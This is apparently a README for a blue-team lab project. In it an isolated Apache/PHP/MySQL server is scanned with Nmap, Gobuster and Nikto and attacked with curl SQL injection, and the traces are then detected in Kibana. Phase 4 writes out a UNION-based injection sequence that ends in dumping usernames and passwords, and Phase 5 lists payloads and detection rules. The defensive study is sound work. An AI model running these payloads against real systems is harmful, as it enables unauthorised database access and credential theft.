# 🛡️ Apache Web Server Attack Detection with ELK Stack

<div align="center">


**Real-world attack simulation and log-based threat detection using ELK Stack on a vulnerable Apache web server.**

</div>

---

## 📋 Table of Contents

- [Project Overview](#-project-overview)
- [Architecture](#-architecture)
- [Lab Environment](#-lab-environment)
- [Phase 1 — Ubuntu Server Setup](#phase-1--ubuntu-server-setup)
- [Phase 2 — Apache Web Server](#phase-2--apache-web-server)
- [Phase 3 — ELK Stack Installation](#phase-3--elk-stack-installation)
- [Phase 4 — Attack Simulation (Kali Linux)](#phase-4--attack-simulation-kali-linux)
- [Phase 5 — Detection & Analysis in Kibana](#phase-5--detection--analysis-in-kibana)
- [Key Findings](#-key-findings)
- [Conclusion](#-conclusion)

---

## 🔍 Project Overview

This project demonstrates a **complete blue team / SOC analyst workflow** in a controlled virtual lab. An intentionally exposed Apache web server is deployed on Ubuntu Server, instrumented with the **ELK Stack** (Elasticsearch + Logstash + Kibana) and **Filebeat** for centralized log collection. A **Kali Linux** attacker machine then performs a variety of realistic attacks — reconnaissance, directory brute-forcing, vulnerability scanning, and SQL injection — all of which are captured, ingested, and visualized inside **Kibana's Discover** view.

### 🎯 Goals

| Goal | Description |
|------|-------------|
| **Deploy** | Set up a realistic Ubuntu web server with Apache, PHP, and MySQL |
| **Instrument** | Configure ELK Stack + Filebeat to ingest Apache access/error logs |
| **Attack** | Use Kali Linux tools (Nmap, Gobuster, Nikto, SQLMap) to simulate real attacks |
| **Detect** | Analyze logs in Kibana to identify attacker IPs, tools, URIs, and patterns |
| **Report** | Document IoCs (Indicators of Compromise) and detection logic |

---

## 🏗️ Architecture

```
┌─────────────────────────────────────────────────────────┐
│                    VMware Workstation                    │
│                                                         │
│  ┌──────────────────────┐    ┌────────────────────────┐ │
│  │   Ubuntu Server VM   │    │     Kali Linux VM      │ │
│  │                      │    │                        │ │
│  │  ┌────────────────┐  │    │  • nmap               │ │
│  │  │  Apache2       │◄─┼────┼─ gobuster             │ │
│  │  │  PHP + MySQL   │  │    │  • nikto               │ │
│  │  └───────┬────────┘  │    │  • sqlmap              │ │
│  │          │ logs      │    │                        │ │
│  │  ┌───────▼────────┐  │    └────────────────────────┘ │
│  │  │   Filebeat     │  │                               │
│  │  └───────┬────────┘  │                               │
│  │          │           │                               │
│  │  ┌───────▼────────┐  │                               │
│  │  │ Elasticsearch  │  │                               │
│  │  └───────┬────────┘  │                               │
│  │          │           │                               │
│  │  ┌───────▼────────┐  │                               │
│  │  │    Kibana      │  │                               │
│  │  └────────────────┘  │                               │
│  └──────────────────────┘                               │
└─────────────────────────────────────────────────────────┘
```

---

## 🖥️ Lab Environment

| Component | Details |
|-----------|---------|
| **Hypervisor** | VMware Workstation |
| **Target OS** | Ubuntu Server 22.04 LTS |
| **Attacker OS** | Kali Linux (latest) |
| **Web Server** | Apache 2.4 |
| **Stack** | Elasticsearch 8.x + Kibana 8.x + Filebeat 8.x |
| **Backend** | PHP + MySQL |
| **Network** | Host-only / NAT (isolated lab network) |

---

## Phase 1 — Ubuntu Server Setup

### 1.1 Installation

Ubuntu Server was installed inside VMware Workstation. During setup, the OpenSSH server option was selected to allow remote management.



*Figure 1.1 — Ubuntu Server installation wizard, disk partitioning step.*



*Figure 1.2 — Network and profile configuration during OS installation.*



*Figure 1.3 — Installation complete, system ready for reboot.*

---

## Phase 2 — Apache Web Server

### 2.1 Installing Apache, PHP & MySQL

After booting the server, the LAMP stack was installed to simulate a realistic web application environment.

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install apache2 -y
sudo apt install php libapache2-mod-php php-mysql -y
sudo apt install mysql-server -y
```



*Figure 2.1 — Apache2 package installation via apt.*



*Figure 2.2 — PHP and MySQL installation alongside Apache2.*

### 2.2 Verifying Apache Service

```bash
sudo systemctl enable apache2
sudo systemctl start apache2
sudo systemctl status apache2
```



*Figure 2.3 — Apache2 service running and active (green).*

### 2.3 Default Web Page — Attacker's First View

Navigating to the server's IP from a browser confirms Apache is publicly accessible. This is the same page the attacker sees during initial reconnaissance.



*Figure 2.4 — Apache default index page, confirming the server is reachable on port 80.*

---

## Phase 3 — ELK Stack Installation

### 3.1 Adding Elastic Repository & GPG Key

```bash
wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo gpg --dearmor -o /usr/share/keyrings/elasticsearch-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/elasticsearch-keyring.gpg] https://artifacts.elastic.co/packages/8.x/apt stable main" | \
  sudo tee /etc/apt/sources.list.d/elastic-8.x.list

sudo apt update
```



*Figure 3.1 — Elastic GPG key imported and repository added successfully.*

### 3.2 Installing Elasticsearch

```bash
sudo apt install elasticsearch -y
```



*Figure 3.2 — Elasticsearch package installation.*

### 3.3 Enabling & Starting Elasticsearch

```bash
sudo systemctl daemon-reload
sudo systemctl enable elasticsearch
sudo systemctl start elasticsearch
```



*Figure 3.3 — Elasticsearch enabled as a systemd service.*



*Figure 3.4 — Elasticsearch running and healthy.*

### 3.4 Installing Kibana

```bash
sudo apt install kibana -y
```



*Figure 3.5 — Kibana installation.*

### 3.5 Configuring Kibana

`/etc/kibana/kibana.yml` was edited to expose Kibana on the server's network interface:

```yaml
server.port: 5601
server.host: "0.0.0.0"
elasticsearch.hosts: ["http://localhost:9200"]
```



*Figure 3.6 — kibana.yml configuration file, setting host and Elasticsearch endpoint.*



*Figure 3.7 — Kibana service active and running on port 5601.*

### 3.6 Installing & Configuring Filebeat

Filebeat is the log shipper that reads Apache logs and sends them to Elasticsearch.

```bash
sudo apt install filebeat -y
sudo filebeat modules enable apache
sudo filebeat setup
sudo systemctl enable filebeat
sudo systemctl start filebeat
```



*Figure 3.8 — Filebeat Apache module enabled, pointing to `/var/log/apache2/access.log` and `error.log`.*



*Figure 3.9 — Filebeat service active, logs are being shipped to Elasticsearch.*

---

## Phase 4 — Attack Simulation (Kali Linux)

> ⚠️ **Disclaimer:** All attacks were performed in a **controlled, isolated virtual lab** environment. This is for educational and security research purposes only.

### 4.1 Port Scanning — Nmap

The first step in any real-world attack is reconnaissance. Nmap was used to discover open ports and running services on the target.

```bash
nmap -T5 -A -p- <target-ip>
```



*Figure 4.1 — Nmap scan revealing open ports: 22 (SSH), 80 (HTTP), 3306 (MySQL). Apache version and OS fingerprinting also visible.*

**Key findings from Nmap:**
- Port 80: Apache 2.4.x running
- Port 22: OpenSSH accessible
- Port 3306: MySQL exposed (misconfiguration)

---

### 4.2 Directory Brute-Forcing — Gobuster

Gobuster was used to discover hidden directories and files on the web server.

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



*Figure 4.2 — Gobuster discovering directories. Status codes 200/301 indicate accessible paths.*

---

### 4.3 Vulnerability Scanning — Nikto

Nikto performs automated web vulnerability scanning, looking for misconfigurations, outdated software, and known CVEs.

```bash
nikto -h http://<target-ip>
```



*Figure 4.3 — Nikto scan results showing multiple findings: missing security headers, exposed server version, directory indexing enabled.*

**Notable Nikto Findings:**
- `X-Frame-Options` header missing
- `X-Content-Type-Options` header missing
- Server version disclosed in HTTP headers
- Directory indexing enabled on `/uploads/`

---

### 4.4 SQL Injection Attacks — curl

SQL injection payloads were manually crafted and sent to the target web application using `curl`. This approach gives full control over the request structure and clearly shows each injection step.

**Basic injection test — checking for vulnerability:**
```bash
curl "http://<target-ip>/login.php?id=1'"
curl "http://<target-ip>/login.php?id=1 OR 1=1--"
```

**Enumerating databases via UNION-based injection:**
```bash
curl "http://<target-ip>/login.php?id=1 UNION SELECT NULL,schema_name,NULL FROM information_schema.schemata--"
```

**Listing tables in the target database:**
```bash
curl "http://<target-ip>/login.php?id=1 UNION SELECT NULL,table_name,NULL FROM information_schema.tables WHERE table_schema='webapp'--"
```

**Extracting column names:**
```bash
curl "http://<target-ip>/login.php?id=1 UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'--"
```

**Dumping credentials:**
```bash
curl "http://<target-ip>/login.php?id=1 UNION SELECT NULL,concat(username,':',password),NULL FROM users--"
```



*Figure 4.4*



*Figure 4.5*



*Figure 4.6*



*Figure 4.7*



*Figure 4.8*



*Figure 4.9*

---

## Phase 5 — Detection & Analysis in Kibana

After all attacks were completed, Kibana's **Discover** view was used to analyze the ingested Apache logs and identify attack patterns.

### 5.1 Kibana Dashboard Overview



*Figure 5.1 — Kibana Discover view showing all ingested Apache log events from the attack timeframe. Each log line represents an HTTP request.*

---

### 5.2 Identifying the Attacker's IP Address

By filtering on `source.ip` or `client.ip`, the attacker's IP was immediately identifiable due to the abnormally high request volume compared to baseline.



*Figure 5.2 — Top requesting IP addresses. The attacker's Kali machine IP dominates the chart, sending thousands of requests in a short window — a clear anomaly.*

**Detection Rule Idea:**
```
source.ip: "<attacker-ip>" AND event.count > 100 within 60s
→ Trigger: Potential brute-force or scanning activity
```

---

### 5.3 HTTP Status Code Analysis

HTTP status codes reveal the nature of attack traffic at a glance.



*Figure 5.3 — HTTP status code distribution. A spike in `404 Not Found` responses is a classic indicator of directory brute-forcing (Gobuster). `200 OK` on unusual paths indicates successful path discovery.*

| Status Code | Significance |
|-------------|--------------|
| `200 OK` | Request succeeded — attacker found a valid resource |
| `301/302` | Redirect — attacker following directory structures |
| `403 Forbidden` | Blocked path — still reveals path exists |
| `404 Not Found` | High volume = directory brute-force in progress |
| `500 Server Error` | Possible SQLi or malformed request causing server crash |

---

### 5.4 URI Path Analysis

Analyzing requested URI paths reveals exactly what the attacker was probing.



*Figure 5.4 — Top requested URI paths. Paths like `/admin`, `/phpmyadmin`, `/wp-admin`, `/backup.sql`, and `/config.php` are characteristic of automated scanning tools.*

**Detected Attack Patterns:**
- `/phpmyadmin` — looking for exposed database admin panel
- `/.git/config` — source code exposure check
- `/backup.zip` / `/backup.sql` — data exfiltration path probing
- `/wp-login.php` — CMS fingerprinting (even though WordPress isn't installed)

---

### 5.5 SQL Injection in URI Query Parameters

Kibana field filtering on `url.query` revealed the raw SQL injection payloads sent by SQLMap.



*Figure 5.5 — Raw SQLi payloads visible in Apache logs: `' OR 1=1--`, `UNION SELECT NULL`, `benchmark(999999,MD5(1))`. These are unmistakable SQLMap fingerprints.*

**Example payloads detected:**
```
/login.php?id=1' OR '1'='1
/login.php?id=1 UNION SELECT table_name FROM information_schema.tables--
/login.php?id=1 AND SLEEP(5)--
```

---

### 5.6 User-Agent Fingerprinting — Detecting Attack Tools

HTTP User-Agent strings in Apache logs expose the exact tools used by the attacker.



*Figure 5.6 — Kibana showing malicious User-Agents: `gobuster/3.x`, `Nmap Scripting Engine`, `sqlmap/1.x`, `Nikto/2.x`. These are never generated by legitimate browsers.*

**Malicious User-Agents Detected:**

| User-Agent | Tool | Attack Type |
|------------|------|-------------|
| `gobuster/3.x` | Gobuster | Directory brute-force |
| `curl/7.x` | curl | Manual SQL injection requests |
| `Nikto/2.1.6` | Nikto | Web vulnerability scanning |
| `Mozilla/5.0 Nmap NSE` | Nmap | Port/service scanning |

**Detection Rule Idea:**
```
http.request.headers.user-agent: (*gobuster* OR *curl* OR *nikto* OR *nmap*)
→ Trigger: Known attack tool User-Agent detected
```

---

## 🔑 Key Findings

### Indicators of Compromise (IoCs)

| Category | IoC | Detection Method |
|----------|-----|-----------------|
| **Attacker IP** | `<kali-ip>` | Kibana top IPs chart |
| **Tool: Nmap** | UA: `Nmap Scripting Engine` | User-Agent filter |
| **Tool: Gobuster** | 1000+ `404` in 30s | Status code spike |
| **Tool: Nikto** | UA: `Nikto/2.x` | User-Agent filter |
| **Tool: curl** | Manual SQLi payloads in URI | url.query field |
| **SQLi Payload** | `OR 1=1`, `UNION SELECT`, `SLEEP()` | url.query field |
| **Path Enum** | `/admin`, `/.git`, `/phpmyadmin` | URI path analysis |

### MITRE ATT&CK Mapping

| Technique | ID | Tool Used |
|-----------|----|-----------|
| Active Scanning | T1595 | Nmap |
| Brute Force: Directory | T1083 | Gobuster |
| Exploit Public-Facing App | T1190 | curl (manual SQLi), Nikto |
| OS Fingerprinting | T1592 | Nmap `-A` flag |
| Credential Dumping via SQLi | T1110 | curl (UNION SELECT payload) |

---

## ✅ Conclusion

This project successfully demonstrates an **end-to-end attack detection pipeline**:

1. **Infrastructure** — Ubuntu Server with Apache, PHP, MySQL deployed in VMware
2. **Telemetry** — ELK Stack (Elasticsearch + Kibana + Filebeat) collecting all HTTP access logs
3. **Attack Simulation** — Kali Linux used Nmap, Gobuster, Nikto, and curl (manual SQL injection) to mimic a real threat actor
4. **Detection** — Every attack technique left a clear, detectable fingerprint in Kibana:
   - Abnormal IP request volumes
   - Mass `404` responses (directory brute-force)
   - Known tool User-Agents (Gobuster, Nikto, Nmap)
   - Manual SQL injection payloads in URI query strings

### Defensive Recommendations

- 🔒 **WAF** — Deploy a Web Application Firewall (ModSecurity with OWASP Core Rule Set)
- 🚫 **Rate limiting** — Block IPs sending >100 req/min (Apache `mod_evasive`)
- 🔍 **SIEM Alerts** — Create Kibana/Watcher alerts for malicious User-Agents and SQLi patterns
- 🔐 **Input validation** — Parameterized queries to prevent SQL injection
- 📋 **Security headers** — Add `X-Frame-Options`, `X-Content-Type-Options`, `CSP`
- 🔑 **Least privilege** — MySQL should not be exposed on port 3306 externally
- 📁 **Disable directory listing** — `Options -Indexes` in Apache config

---

## 🛠️ Tools & Technologies

| Tool | Purpose |
|------|---------|
| VMware Workstation | Virtualization platform |
| Ubuntu Server 22.04 | Target server OS |
| Apache 2.4 | Web server |
| PHP + MySQL | Backend stack |
| Elasticsearch 8.x | Log storage & indexing |
| Kibana 8.x | Log visualization & analysis |
| Filebeat 8.x | Log shipping agent |
| Kali Linux | Attacker machine |
| Nmap | Network reconnaissance |
| Gobuster | Directory brute-forcing |
| Nikto | Web vulnerability scanner |
| curl | Manual SQL injection attacks |

---

<div align="center">

**Built for educational purposes in a fully isolated lab environment.**  
*All attacks were performed on self-owned infrastructure. Never attack systems without explicit written permission.*

</div>
